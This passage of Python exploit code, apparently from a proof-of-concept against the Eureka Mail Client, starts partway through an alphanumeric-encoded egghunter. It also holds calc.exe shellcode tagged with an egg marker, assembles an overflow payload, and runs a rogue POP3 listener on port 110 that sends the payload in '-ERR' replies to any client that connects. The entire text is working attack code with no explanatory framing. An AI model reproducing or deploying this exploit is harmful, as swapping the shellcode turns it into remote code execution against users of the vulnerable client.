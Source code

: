 ```py
egghunter += "\x2d\x51\x3f\x3a\x32"
egghunter += "\x50"
#******BLOCK 7*******
egghunter += "\x25\x4a\x4d\x4e\x55"
egghunter += "\x25\x35\x32\x31\x2a"
egghunter += "\x2d\x33\x2a\x67\x55"
egghunter += "\x2d\x33\x2a\x67\x55"
egghunter += "\x2d\x34\x2a\x67\x55"
egghunter += "\x50"
#------------------------------
egghunter += "\x41\x41\x41\x41"         #some nops

#calc.exe
shellcode = "m0m0m0m0"
shellcode += "\x89\xe2\xda\xc1\xd9\x72\xf4\x58\x50\x59\x49\x49\x49\x49"
shellcode += "\x43\x43\x43\x43\x43\x43\x51\x5a\x56\x54\x58\x33\x30\x56"
shellcode += "\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41"
shellcode += "\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41\x42\x32\x42\x42"
shellcode += "\x30\x42\x42\x58\x50\x38\x41\x43\x4a\x4a\x49\x4b\x4c\x4a"
shellcode += "\x48\x50\x44\x43\x30\x43\x30\x45\x50\x4c\x4b\x47\x35\x47"
shellcode += "\x4c\x4c\x4b\x43\x4c\x43\x35\x43\x48\x45\x51\x4a\x4f\x4c"
shellcode += "\x4b\x50\x4f\x42\x38\x4c\x4b\x51\x4f\x47\x50\x43\x31\x4a"
shellcode += "\x4b\x51\x59\x4c\x4b\x46\x54\x4c\x4b\x43\x31\x4a\x4e\x50"
shellcode += "\x31\x49\x50\x4c\x59\x4e\x4c\x4c\x44\x49\x50\x43\x44\x43"
shellcode += "\x37\x49\x51\x49\x5a\x44\x4d\x43\x31\x49\x52\x4a\x4b\x4a"
shellcode += "\x54\x47\x4b\x51\x44\x46\x44\x43\x34\x42\x55\x4b\x55\x4c"
shellcode += "\x4b\x51\x4f\x51\x34\x45\x51\x4a\x4b\x42\x46\x4c\x4b\x44"
shellcode += "\x4c\x50\x4b\x4c\x4b\x51\x4f\x45\x4c\x45\x51\x4a\x4b\x4c"
shellcode += "\x4b\x45\x4c\x4c\x4b\x45\x51\x4a\x4b\x4d\x59\x51\x4c\x47"
shellcode += "\x54\x43\x34\x48\x43\x51\x4f\x46\x51\x4b\x46\x43\x50\x50"
shellcode += "\x56\x45\x34\x4c\x4b\x47\x36\x50\x30\x4c\x4b\x51\x50\x44"
shellcode += "\x4c\x4c\x4b\x44\x30\x45\x4c\x4e\x4d\x4c\x4b\x45\x38\x43"
shellcode += "\x38\x4b\x39\x4a\x58\x4c\x43\x49\x50\x42\x4a\x50\x50\x42"
shellcode += "\x48\x4c\x30\x4d\x5a\x43\x34\x51\x4f\x45\x38\x4a\x38\x4b"
shellcode += "\x4e\x4d\x5a\x44\x4e\x46\x37\x4b\x4f\x4d\x37\x42\x43\x45"
shellcode += "\x31\x42\x4c\x42\x43\x45\x50\x41\x41"


payload = junk + ret + egghunter + padding + shellcode


#set up listener on port 110
port=110
ip = "0.0.0.0"

server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind((ip, port))
server.listen(5)

print("[+] Listening on TCP port {}".format(ip));
print "[+] Configure Eureka Mail Client to connect to this host\n";


def handle_client(sock):

    print("[+] Client connected from {0}:{1}, sending evil payload\n".format(addr[0],addr[1]))

    while(True):
        sock.send("-ERR " + payload + "\n")
        print("Sent " + str(len(payload)) + " bytes\n")


    sock.close()
```